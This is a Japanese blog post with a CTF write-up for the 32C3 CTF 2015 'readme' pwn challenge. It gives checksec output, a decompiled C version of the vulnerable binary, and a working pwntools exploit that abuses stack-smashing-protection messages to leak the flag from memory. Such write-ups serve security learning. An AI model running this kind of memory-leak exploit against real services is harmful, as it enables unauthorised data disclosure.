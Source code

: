 ```yaml
---
layout: post
alias: "/blog/2016/01/02/32c3-ctf-readme/"
date: 2016-01-02T23:20:13+09:00
tags: [ "ctf", "writeup", "pwn", "xinetd", "buffer-overflow", "stack-smashing-protection" ]
---
```


# 32C3 CTF readme

手decompileした結果を眺めてみて、flagを取り出す方法が分からなかったので、他人のwriteupを見て解いた。初心者が初見で解くのはつらい問題だと感じる。

## [pwn 200: readme](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/readme-200)

>   Can you [read]() the flag?  
>   >   nc 136.243.194.62 1024

入力が2回あるバイナリ。1回目の入力にstack上のbuffer overflowがある。ただしsspがある。

``` sh
$ ./readme.bin
Hello!
What's your name? XXX
Nice to meet you, XXX.
Please overwrite the flag: YYY
Thank you, bye!

$ checksec --file readme.bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   readme.bin

$ perl -e 'print "X"x300,$/, "X",$/' | ./readme.bin
Hello!
What's your name? Nice to meet you, XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX.
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated
======= Backtrace: =========
/usr/lib/libc.so.6(+0x72055)[0x7fdb53982055]
/usr/lib/libc.so.6(__fortify_fail+0x37)[0x7fdb53a095d7]
/usr/lib/libc.so.6(__fortify_fail+0x0)[0x7fdb53a095a0]
./readme.bin[0x4008ae]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:02 5252127                            /home/user/readme.bin
...
```

decompileすると以下のようになっている。

``` c
#include <stdio.h>
#include <stdlib.h>
int canary = 0; // randomized?
char flag[] = "32C3_TheServerHasTheFlagHere\x2e\x2e\x2e";
void func(void) {
    char buf[0x118];
    buf[0x108] = canary;
    __printf_chk(1, "Hello!\nWhat's your name? ");
    if (gets(buf) == NULL) {
        exit(1);
    }
    __printf_chk(1, "Nice to meet you, %s.\nPlease overwrite the flag: ", buf);
    for (register int i = 0; i < 20; ++i) {
        register int c = getc(stdin);
        switch (c) {
            case EOF:
                exit(1);
            case '\n':
                memset(flag + i, 0, 0x20 - i);
                break;
            default:
                flag[i] = c;
        }
    }
    puts("Thank you, bye!");
    /* canary check */
    if (buf[0x108] != canary) {
        __stack_chk_fail();
    }
}
int main(void) {
    setbuf(stdout, NULL);
    func();
    return 0;
}
```

他のwriteup曰く、

-   sspによる`*** stack smashing detected ***: ./readme.bin terminated`によって`argv[0]`の値を表示できるので、これを書き換える。
-   上の出力は端末に直接吐かれるが、環境変数`LIBC_FATAL_STDERR_=1`と指定しておくと標準エラー出力に流れてきて、network越しでも見えるようになる。
-   flagは`.data` sectionである`0x600d20`にあり、後に上書きされるが、`0x400d20`にも書き込まれている。

ということなので、その通りにやればflagが出てくる。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('--local', action='store_true')
args = parser.parse_args()

context.log_level = 'debug'
if args.local:
    p = process('./readme.bin')
else:
    p = remote('136.243.194.62', 1024)

p.sendline(
    'X' * 0x210 # ($rsp at 0x4006ee, entry point) - ($rsp at 0x40080e, before gets)
    + p64(1) # argc
    + p64(0x400d20) # argv[0] <- flag
    + p64(0x0) # argv sentinel
    + p64(0x600d20) # envp[0] <- overwritten flag
    )
p.sendline('LIBC_FATAL_STDERR_=1')
p.recvall()
```

[Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)というのを教えてもらったので使ってみた。

### 参考

-   <https://nuc13us.wordpress.com/2015/12/31/32c3-ctf-pwn-200-readme/>
-   <http://nandynarwhals.org/2015/12/31/32c3ctf-readme-pwn200/>
-   <http://stackoverflow.com/questions/4290336/how-to-redirect-runtime-errors-to-stderr>
-   <http://softwaretechnique.jp/OS_Development/Supplement/Binary/elf_stack.html>
